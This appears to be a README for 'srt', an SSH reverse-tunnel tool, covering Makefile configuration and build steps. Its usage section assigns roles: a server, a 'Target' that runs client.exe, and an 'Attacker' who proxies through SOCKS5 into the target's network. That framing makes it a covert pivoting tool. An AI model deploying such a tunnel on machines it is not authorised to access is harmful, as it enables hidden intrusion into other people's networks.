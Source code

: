 srt
=========

SSH Reverse Tunnel

![alt text](https://i.imgur.com/jwJ9sC3.png)

---------
****Build****
 - edit config in Makefile:
 ```
 SSHHost = your-ssh-server-ip
 SSHPort = your-ssh-server-port
 SSHUser = your-ssh-server-user
 SSHPwd = your-ssh-server-password
 SocksUser = your-socks-server-user
 SocksPwd = your-socks-server-pwd
 Tag = client-tag
 ```
 - ~#:make dep
 - ~#:make build

---------
****Usage****

 - Server: ./server.elf 0.0.0.0 2222 userssh passssh 0.0.0.0 8080
 
 - Target: client.exe
 
 - Attacker: set proxy socks5 ServerIp:8080 with usersocks/passsocks
 
 ---------
 
****Ref****
 
 - http://blog.ralch.com/tutorial/golang-ssh-tunneling/
 - https://blog.gopheracademy.com/go-and-ssh/
 - https://github.com/armon/go-socks5